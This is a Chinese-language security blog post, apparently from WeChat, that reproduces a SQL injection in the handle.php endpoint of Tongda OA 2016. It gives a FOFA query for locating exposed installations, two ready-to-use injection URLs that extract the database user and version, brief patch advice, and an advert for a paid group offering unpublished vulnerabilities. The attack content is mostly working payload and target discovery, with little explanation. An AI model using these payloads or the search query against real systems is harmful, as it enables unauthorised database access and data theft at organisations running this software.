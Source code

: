 #  北京通达信科科技有限公司通达OA2016网络智能办公系统 handle.php 存在sql注入

原创 非攻安全实验室  [ 非攻安全实验室 ](javascript:void\(0\);)

**非攻安全实验室** ![]()

微信号 gh_9c3b7f864fba

功能介绍 一个不会编程、挖 SRC、代码审计的安全爱好者。

____

___发表于_

收录于合集 #漏洞复现 13个

  

**导读  
**



      主要分享学习日常中的web渗透，内网渗透、漏洞复现、工具开发相关等。希望以技术共享、交流等不断赋能自己，为网络安全发展贡献自己的微薄之力！    

![]()  
 **0x00免责声明** **本次测试仅供学习使用，** **如若非法他用，与平台和本文作者无关，需自行负责！**![]()  
 **0x01漏洞描述**

  

    北京通达信科科技有限公司通达OA2016网络智能办公系统 handle.php 存在sql注入攻击者可以利用该漏洞执行任意SQL语句，如查询数据、获取系统信息，造成数据及其它安全风险。

  

![]()  
 **0x02漏洞复现**  

1、fofa

  * 

    
    
    app="TDXK-通达OA" && body="2016"

2、部分界面如下

![]()

3、poc验证如下

  * 

    
    
    /share/handle.php?_GET[module]=1%27+and+1={`=%27`+1}+and+1=0+union+select+(select/**/user())--+%27

![]()

4、查询数据库版本

  * 

    
    
    /share/handle.php?_GET[module]=1%27+and+1={`=%27`+1}+and+1=0+union+select+(select/**/version())--+%27

![]()

![]()  
 **0x03修复建议**  
  

  *   * 

    
    
     1、升级到安全版本2、采用sql语句预编译和绑定变量。

  

![]()  
 **0x04知识大陆**  
  

    因为很多未公开或者小范围公开的漏洞不能直接发公众号，所以后面部分漏洞会直接整理发表在知识大陆，持续更新，目前进入需要19.9元。（收费主要是想参与freebuf知识大陆活动），持续更新中，链接如下：

  * 

    
    
    https://wiki.freebuf.com/front/societyFront?invitation_code=2f34044b&society_id=107&source_data=2

![]()

![]()

![]()

![]()

  

    加入帮会后扫描二维码加入群聊，（超200人需要一个一个拉比较麻烦，索性直接建立个2群，已加入的就不要重复加了，感谢）。

![]()

![]()  
 **0x05往期内容**  
  

[京信通信系统中国有限公司CPE-
WiFi存在任意用户添加&命令执行](http://mp.weixin.qq.com/s?__biz=Mzk0NDUzMDA1Mg==&mid=2247483674&idx=1&sn=09cde828189029b86ad532ee6e61c084&chksm=c32276f1f455ffe74c7a5e97099a4033dc169b880075f536eed6970b8a500901d43edf6d74af&scene=21#wechat_redirect)  

[泛微 emessage
管理界面存在任意文件读取漏洞](http://mp.weixin.qq.com/s?__biz=Mzk0NDUzMDA1Mg==&mid=2247483696&idx=1&sn=51eadf07551d81ef0387484402745d00&chksm=c32276dbf455ffcdd4a07631f69beef9990e220ffde81b6575c67c7cf0bc468c535af7b594bc&scene=21#wechat_redirect)  

[飞企互联企业运营管理平台存在任意文件读取](http://mp.weixin.qq.com/s?__biz=Mzk0NDUzMDA1Mg==&mid=2247483715&idx=1&sn=9f63136b2a7ff2a174e48538eb78f1a8&chksm=c32276a8f455ffbe5c95068cb2ee3af5c71e6cbb5bd1946d792550917a51c6b3f4371c1e6f11&scene=21#wechat_redirect)  

[泛微e-office OfficeServer2.php
存在任意文件读取漏洞复现](http://mp.weixin.qq.com/s?__biz=Mzk0NDUzMDA1Mg==&mid=2247483731&idx=1&sn=56e9cff8aa7f6a1ad9504e12abdfe018&chksm=c32276b8f455ffaea93653dbb3d0273896e4c264b1a920b2355b793ef7f93904f3bb70c15884&scene=21#wechat_redirect)

[广联达OA存在信息泄露漏洞复现](http://mp.weixin.qq.com/s?__biz=Mzk0NDUzMDA1Mg==&mid=2247483755&idx=1&sn=ab7de9d29375c732d7b919ff16c760a4&chksm=c3227680f455ff9639e5a435a896bdb26f51ebabce80bbf62fcaa1dfe93a3e65bae8e167807f&scene=21#wechat_redirect)

[NUUO
摄像头远程命令执行漏洞](http://mp.weixin.qq.com/s?__biz=Mzk0NDUzMDA1Mg==&mid=2247483866&idx=1&sn=4ce87b5403f541fd2c16ad1be05bba6d&chksm=c3227631f455ff2792c8995e7f412df4a49a41d82db4d443ba1a5cda9fac71fe89303d787781&scene=21#wechat_redirect)  

[Panabit panalog
任意用户创建漏洞和后台命令执行](http://mp.weixin.qq.com/s?__biz=Mzk0NDUzMDA1Mg==&mid=2247483873&idx=1&sn=684f8dcaa777a7da71be7c038024ca10&chksm=c322760af455ff1c2486c153f3752df434a078dfe0ee46126b9bacb18f1612067898dbdba025&scene=21#wechat_redirect)  

[用友U8 slbmbygr.jsp
存在sql注入](http://mp.weixin.qq.com/s?__biz=Mzk0NDUzMDA1Mg==&mid=2247483874&idx=1&sn=f7f2c4932b369f33527571f0aeafe2c2&chksm=c3227609f455ff1f94521e6fa7d95a2f6999388e1a8b5b17d2af5afbc4f790f27433d42acdf7&scene=21#wechat_redirect)  

[用友移动系统管理存在前台SQL注入漏洞](http://mp.weixin.qq.com/s?__biz=Mzk0NDUzMDA1Mg==&mid=2247483883&idx=1&sn=ba8610c59c524eb24fcfdf558f166697&chksm=c3227600f455ff16d5e0c449af6de1e9554e5b505d78f51c64b3996e3e14280f61523249dae5&scene=21#wechat_redirect)

[金盘移动图书馆系统 download.jsp
任意文件下载](http://mp.weixin.qq.com/s?__biz=Mzk0NDUzMDA1Mg==&mid=2247483891&idx=1&sn=a637fa6bc6947263d6537359cfde4d01&chksm=c3227618f455ff0e32cfdab58f4d6f87ee4aaa4f8be552ba90bb44267db48b19029438911fdc&scene=21#wechat_redirect)

[大华智慧园区管理平台存在任意文件读取](http://mp.weixin.qq.com/s?__biz=Mzk0NDUzMDA1Mg==&mid=2247483912&idx=1&sn=b4527f4cb8c3ebc7600f9399cf492cf4&chksm=c32275e3f455fcf5ea5e471c0868821668ce9dd81ac27a2d95e868d8a9c101f870e4edca26d8&scene=21#wechat_redirect)

[广州图创计算机软件开发有限公司图书馆集群管理系统存在逻辑绕过](http://mp.weixin.qq.com/s?__biz=Mzk0NDUzMDA1Mg==&mid=2247483931&idx=1&sn=3d2996689f48f0eaf84b5701131fad60&chksm=c32275f0f455fce61002c0cae83b18dbcdc42e027537a7c8446586634702c6baca19d6532572&scene=21#wechat_redirect)  

[深圳市强鸿电子有限公司鸿运主动安全云平台存在任意文件下载漏洞](http://mp.weixin.qq.com/s?__biz=Mzk0NDUzMDA1Mg==&mid=2247483954&idx=1&sn=0410d4bcc1b9bc5a69521f3bbf942109&chksm=c32275d9f455fccf736a69fdb79be810cf76e4f6cb675d0f08607d088e7515d3c19d4a3b8934&scene=21#wechat_redirect)

[深圳市北京南北天地科技股份有限公司ERP系统存在sql注入](http://mp.weixin.qq.com/s?__biz=Mzk0NDUzMDA1Mg==&mid=2247483981&idx=1&sn=daaddd165b48a541970bed8a666b6bce&chksm=c32275a6f455fcb0e4282e515f98a56997ad8523d5f04f864041b8630e72062690c2cdd16345&scene=21#wechat_redirect)

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

